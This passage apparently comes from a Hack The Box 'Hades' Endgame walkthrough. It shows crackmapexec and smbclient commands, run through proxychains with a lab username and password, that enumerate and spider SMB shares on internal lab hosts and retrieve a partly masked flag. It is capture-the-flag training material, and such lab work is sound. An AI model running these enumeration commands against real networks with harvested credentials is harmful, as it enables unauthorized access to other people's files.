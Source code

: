 
## Enumeration with CME

Enum and spider SMB shares with CME:

```
root@kali:$ proxychains4 -q crackmapexec smb 192.168.3.201-203 -u 'bob' -p 'Passw0rd1!' --shares
```

[![cme-shares.png](/assets/images/htb/endgames/hades/cme-shares.png)](/assets/images/htb/endgames/hades/cme-shares.png)
{:.center-image}

```
root@kali:$ proxychains4 -q crackmapexec smb 192.168.3.203 -u 'bob' -p 'Passw0rd1!' -d 'HTB' --spider Users --pattern '.'
```

[![cme-shares-spider.png](/assets/images/htb/endgames/hades/cme-shares-spider.png)](/assets/images/htb/endgames/hades/cme-shares-spider.png)
{:.center-image}

See the second flag!

```
root@kali:$ proxychains4 -q smbclient -U bob '\\192.168.3.203\Users' 'Passw0rd1!'
smb: \> get bob/flag.txt
root@kali:$ cat flag.txt
HADES{DoNt_d1s4ble_***************************}
```
